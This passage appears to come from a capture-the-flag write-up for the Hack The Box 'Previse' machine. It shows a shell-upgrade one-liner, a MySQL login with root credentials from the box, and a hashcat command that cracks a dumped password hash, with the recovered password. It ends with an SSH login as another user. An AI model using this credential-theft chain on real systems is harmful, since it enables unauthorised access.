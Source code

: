 Starting with upgrading the shell:<br>
`python -c "import pty;pty.spawn('/bin/bash')"`<br>
`export TERM=xterm`

## MySQL
Logging in to the database using credentials found earlier.<br>
`root`:`mySQL_p@ssw0rd!:)`

Found a password hash in the table `accounts`:<br>
![MySQL Hashes](/assets/htb/previse/mysql_hashes.png)
(The wierd symbol in BlackArch is a saltshaker.)<br>
`$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.`

### Hashcat

Using hashcat on Windows host machine and not inside the BlackArch VM:<br>
`hashcat.exe -m 500 -o cracked.txt hash.txt`

Cracked!<br>
`$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.:ilovecody112235!`

# SSH as m4lwhere

Trying to SSH into the box with the user m4lwhere and the newly cracked password.<br>
![SSH as m4lwhere](/assets/htb/previse/shell_m4lwhere.png)

Found the `user.txt` and able to view it.
